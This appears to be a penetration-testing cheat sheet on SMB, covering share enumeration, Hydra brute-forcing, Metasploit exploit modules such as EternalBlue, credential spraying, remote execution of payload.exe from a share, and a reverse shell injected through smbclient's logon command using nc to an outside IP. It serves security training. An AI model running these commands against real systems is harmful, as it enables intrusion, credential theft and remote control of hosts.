 ```yaml
---
title: "Working With SMB"
date: "2022-05-21"
description: "A look at interacting with SMB Shares using the Windows Command line and using various tools available within Kali Linux."
coverimage: Working_With_SMB.jpg
tags: hydra, mount, nmblookup
published: true
posttype: article
---
```

## Working with SMB

### Windows

Windows commands for working with our share

```
net use \\10.1.1.99\IPC$ /user:evilsmb
net view 10.1.1.99
dir \\10.1.1.99\evilshare
copy \\10.1.1.99\evilshare\29.jpg mypic.jpg
```

Anonymous shares can be viewed without authenticating to the IPC$ share.

```
net view 10.1.1.99
```

Mount a share

```
net use Y \\10.1.1.99\myshare  /user:eviltest
cd /d Y:\
dir
```

Executing files from SMB. Because of the way Windows treats UNC paths, it’s possible to just execute our binary directly from the SMB share without even needing to copy it over first. Just run the executable as if it were already local and the payload will fire:

```
C:\Users\evilsaint\Desktop> \\10.1.1.254\sharefolder\payload.exe
```

### Linux

Listing SMB shares with username and password
```
smbclient -L 10.1.1.99 -U username%password
```

Listing SMB Shares with anonymous connection
```
smbclient -N -L 10.1.1.99
```

Connecting to SMB Share with username and password
```
smbclient //10.1.1.99/myshare -U eviltest%evilpass
```

Connecting to SMB Share without username and password
```
smbclient //10.1.1.99/myshare
```

# SMB

### SMB Shares

List Shares of computers in Domain
```
Get-NetComputer -DomainController 172.20.50.254 | Get-NetShare
```

# Bruteforcing SMB with Hydra

Comma seperated username and passwords
```
hydra -v -V -C user-pass.txt 10.1.18.2 smb
```

not using comma separated
```
hydra -L users.txt -e ns 172.24.2.97 smb
```

# SMB

## NetBIOS

Find all hosts responding to netbios, the `q` supresses the headers
```
nbtscan -q 10.11.1.0\24
```

Look at more detail for a single host either by IP or hostname
```
nmblookup -A 10.50.1.254
nmblookup -S DC01
```

## Crackmapexec

```
crackmapexec smb 10.50.1.0\24
```

## NMAP

Run all Nmap SMB Checks

```
nmap -sS -p 445 -n --open --script=smb-vuln* <ip>
```

Exploit vulnerabilities with metasploit

| Vulnerability | Metasploit Module |
| --- | --- |
| smb-vuln-ms06-025  | exploit06_025_rasmans_reg |
| smb-vuln-ms07-029  | exploit07_029_msdns_zonename |
| smb-vuln-ms08-067  | exploit08_067_netapi |
| smb-vuln-cve2009-3103  | exploit09_050_smb2_negotiate_func_index |
| smb-vuln-ms17-010 | exploit17_010_eternalblue |

## SMB login (spray credentials)

```
msf > use auxiliary/scanner/smb/smb_login
show options
verbose off
set password to the obtained local admin password
remove user as pass
```

## Enum4linux

Enumerate SMB

```
enum4linux -a -u Administrator -p Passw0rd! 10.50.1.15
```

## SMB Client

Listing SMB shares with username and password
```
smbclient -L 10.1.1.99 -U username%password
```

Listing SMB Shares with anonymous connection
```
smbclient -N -L 10.1.1.99
```

Connecting to SMB Share with username and password
```
smbclient //10.1.1.99/myshare -U eviltest%evilpass
```

Connecting to SMB Share without username and password
```
smbclient //10.1.1.99/myshare
```

We can use smbclient over proxychains
```
proxychains smbclient '//192.168.1.230/myshare' -U 'MARVEL.LAB\Administrator%password123!'
```

We can tar up files or folders with smbclient
```
smbclient //10.129.121.21/guest -Tc test.tar secret.txt
smbclient //10.129.121.21/guest -Tc test.tar /tmp
```

## Mount Share

Mount SMB Share
```
mount -t  \\X.X.X.X\c$ \mnt\remote\ -o username=user,password=pass,rw
```

To get a shell back from an SMB share.
```
logon "\=`nc 10.11.0.233 443 -e \bin\bash`"
```

## SMBMap

Not very stealthy but can execute a command
```
python /usr/share/smbmap/smbmap.py -H 127.0.0.1 -u user -p pass -x 'net group "domain admins" \domain'
```

## SMBTree

SMB Tree can map out all smb shares in the neighbourhood.
```
smbtree
```
